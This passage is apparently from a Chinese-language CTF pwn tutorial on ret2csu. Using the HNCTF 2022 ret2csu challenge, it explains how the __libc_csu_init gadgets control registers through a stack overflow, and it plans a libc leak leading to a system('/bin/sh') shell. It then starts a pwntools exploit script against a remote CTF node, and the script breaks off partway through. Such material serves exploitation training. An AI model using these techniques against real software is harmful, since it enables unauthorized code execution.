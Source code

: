 ~~~asm
.text:00000000004012B4                               __libc_csu_init endp
~~~

这里我们主要关注**loc_401290**和**loc_4012A6**部分

- **loc_401290**中，将寄存器r14，r13，r12d的值分别赋值给了寄存器rdx，rsi，edi，我们可以通过**loc_401290**控制寄存器rdx，rsi和edi(rdi的低32位)
- **loc_4012A6**中从栈中把数据pop给了rbx，rbp，r12，r13,r14,r15，可以通过栈溢出来控制这六个寄存器
- **loc_401290**从**0x40129D**到**0x4012A4**，对寄存器rbp和rbx做了比较，若不相等则重复执行**loc_401290**，我们需要构造关系**rbp = rbx + 1**使它不进入循环。

### 例子

以[HNCTF 2022 WEEK2]ret2csu为例，首先checksec一下

![ret2csu-checksec](./assets/ret2csu-checksec.png)

64位，只开了NX

丢入IDA查看

![ret2csu-vuln](./assets/ret2csu-vuln.png)

有一个简单的栈溢出，但没有**system函数地址**和**/bin/sh字符串**，但存在**write**，我们能通过泄露libc，然后自己构造。

思路：

1. 先使用**__libc_csu_init**控制寄存器泄露**write**地址
2. 使用**LibcSearcher**找到libc版本，得到基址
3. 最后得到**system**和**/bin/sh**的地址，构造payload得到权限
   
exp：

~~~python
from pwn import *
from LibcSearcher import LibcSearcher

context(arch='amd64',os='linux',log_level='debug')

p = remote("node5.anna.nssctf.cn","28888")

elf = ELF("./ret2csu")
write_plt = elf.plt['write']
write_got = elf.got['write']
csu_front_addr = 0x401290
csu_end_addr = 0x4012AA
pop_rdi_addr = 0x4012B3
ret_addr = 0x40101A
main_addr = 0x4011DC

def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
~~~